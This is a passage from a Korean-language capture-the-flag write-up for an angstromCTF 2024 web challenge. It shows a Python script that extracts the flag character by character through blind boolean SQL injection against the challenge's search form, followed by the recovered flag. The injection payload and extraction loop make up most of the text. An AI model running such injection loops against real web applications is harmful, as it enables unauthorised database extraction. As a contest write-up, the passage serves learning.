 ```python
    if check == False:
        break 

flag = "actf{"
for i in range(len(flag) + 1, 50): 
    print(i)
    check = False
    for j in "{}0123456789abcdefghijklmnopqrstuvwxyz": 
        sql = f"' or substr((SELECT {column_name} FROM {table_name}),{i},1)='{j}'--"
        print(sql)
        r = requests.post(
            f"{url}/search", 
            data={
                "item": f"{sql}"
            }
        )
        assert r.status_code == 200

        if "<td>Otamatone</td>" in r.text:
            check = True 
            flag += (j)
            print(flag) 
            break

    if check == False: 
        break 

print(flag)
```                                            

대회 도중에 flag 테이블 명이 바뀌는 걸 확인하고, 특정 시간마다 바뀌는구나 싶어서 급하게 짠 지저분한 코드 ...
           
<img src="/assets/images/ctf/2024/angstrom/store/flag.jpg" width="700px">     
                   
### Flag       
actf{37619bbd0b81c257b70013fa1572f4ed}          
            
<a id="pastebin"></a>     
              
# pastebin        
            